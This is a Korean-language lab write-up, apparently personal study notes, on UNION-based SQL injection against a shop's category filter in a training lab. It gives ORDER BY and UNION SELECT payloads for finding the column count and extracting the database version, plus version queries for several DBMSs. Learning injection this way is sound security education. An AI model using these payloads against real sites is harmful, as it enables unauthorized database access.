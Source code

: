 # 🔐 UNION — DB 버전 탈취

**목표**: 카테고리 필터를 우회하여 웹 페이지에 DB 버전 노출 

<br />

## 🧪 실습

1️⃣ **컬럼 수 파악**: `ORDER BY n`로 에러가 나는 n-1이 컬럼 수

```text
/filter?category=Pets' order by 1# -> OK
... ' order by 2# -> OK
... ' order by 3# -> ERROR  => 컬럼 수 = 2
```

🕵️‍♀️ 참고할 단서: 2개 이상의 스트링 데이터를 사용하고 있다. <br />
<img width="293" height="86" alt="image" src="https://github.com/user-attachments/assets/03a1bdc9-e09e-4c50-b324-7747220236e9" />

<br />

2️⃣ **UNION 테스트**: 컬럼 수·타입 맞춰 임의 문자열 반환 시도

```text
/filter?category=Pets' union select 'hello','world'#  -> 페이지에 노출되면 성공
```

<img width="129" height="101" alt="image" src="https://github.com/user-attachments/assets/d9a9435c-dc9a-4e01-ae13-bcceaa53ddd6" />

<br />

3️⃣ **버전 추출**: DB별 버전 함수/변수 사용

```text
/filter?category=Pets' union select @@version, null#
```

<img width="200" height="60" alt="image" src="https://github.com/user-attachments/assets/b0f3c417-2eb3-454f-999d-2e9fe74e6a10" />

<br /><br />

## 🤝 참고

DB 유형별 버전 조회:
```sql
-- Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance

-- Microsoft
SELECT @@version

-- PostgreSQL
SELECT version()

-- MySQL
SELECT @@version
```

<br />

UNION 조건:<br />
→ 컬럼 수 동일, 데이터 타입 호환, 필요 시 alias 사용

```sql
SELECT a AS X, b AS Y
FROM TABLE_1
UNION
SELECT c AS X, d AS Y
FROM TABLE_2;
```
